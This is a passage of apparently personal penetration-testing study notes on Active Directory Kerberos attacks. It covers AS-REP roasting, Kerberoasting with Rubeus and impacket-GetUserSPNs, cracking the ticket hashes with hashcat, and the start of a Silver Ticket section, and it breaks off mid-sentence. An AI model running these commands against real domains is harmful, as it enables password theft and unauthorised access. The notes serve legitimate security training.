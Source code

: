 AS-Rep roasting tickets (TGT) has this format: `$krb5asrep$23$`.

In the powershell the specular program is [Rubeus](https://github.com/GhostPack/Rubeus)

```powershell
.\Rubeus.exe asreproast /nowrap
```

In both cases we have to know at leas the password of one of the AD users. For this reason this and the following tecniques are **post-exploitation** attacks. When we gain the hash it can be cracked with hashcat.

```shell
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

# Kerberosting

With kerberoasting we are requesting SPN's TGS to the DC. The user that can access the service, for the Windows AD design, can access also the SPN and then the TGS, in order to use the service. We will abuse a service ticket in order to crack the password of the service account. We can run the attack from Rubeus with a user in the AD, and will be targeted only the **Service Principal Names** linked to the account user.

From the Kali machine we can run the attack with

```shell
sudo impacket-GetUserSPNs -request -dc-ip <DC-IP> corp.com/<USER>
```

The `-request` flag is requesting the DC a TGS for every SPN the logged user has access to. Dumping the tickets could let us to the password because it contains password of the SPN in hash. The TGS ticket will begin with this format: `$krb5tgs$23$`.

From the Windows machine we can use Rubeus

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

Again now we copy the hash and we crack it with hashcat with the Kerberos code

```shell
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```

# Silver Tickets

We can use Mimikatz to dump hashes and craft a ticket for services access.

First we take the DOMAIN SID with

```powershell
whoami /user
```

We extract the domain
